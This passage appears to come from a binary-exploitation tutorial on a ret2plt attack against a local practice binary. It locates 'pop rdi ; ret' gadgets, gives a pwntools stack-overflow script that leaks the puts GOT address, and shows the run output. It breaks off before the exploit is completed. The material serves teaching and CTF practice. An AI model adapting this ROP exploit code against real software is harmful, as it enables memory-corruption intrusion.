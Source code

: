 We found a `pop rdi ; ret` gadget at `0x00000000004012c3`. This is crucial for placing a value (such as the address of a string like `"/bin/sh"`) into the `rdi` register, which is required for setting up the first argument to functions like `puts` or `system`. We also identified a standalone `ret` gadget at `0x000000000040101a`, which is optional but useful. It's commonly used to fix stack alignment issues (especially when calling functions through libc with certain ABI constraints).

```bash
0x00000000004012c3 : pop rdi ; ret
```

The `ret` at the end of this gadget ensures the code can continue executing by returning to the next address on the stack, typically the function we're trying to call (e.g., `puts@plt`). Without this, control flow would break. Using these gadgets allows us to build a reliable ROP chain for further exploitation.

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2plt')

io = process()

pop_rdi = 0x00000000004012c3
puts = elf.sym.puts

payload = cyclic(40) + pack(pop_rdi) + pack(elf.got.puts) + pack(puts) 

io.sendline(payload)

io.interactive()
```

If we run this incomplete exploit now.

```bash
❯ python3 main.py
[*] '/home/at0m/ret2plt'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/at0m/ret2plt': pid 7842
[*] Switching to interactive mode
Enter Data - 
\xe0{\x08ƨs
[*] Got EOF while reading in interactive
```

We can see now we got `\xe0{\x08ƨs`, We got our leaked address but this is in little-endian format thats why is weird and terminal can't display properly. If we run it again we will get different address because its random, We first need to print leaked address in hex format or integer format.
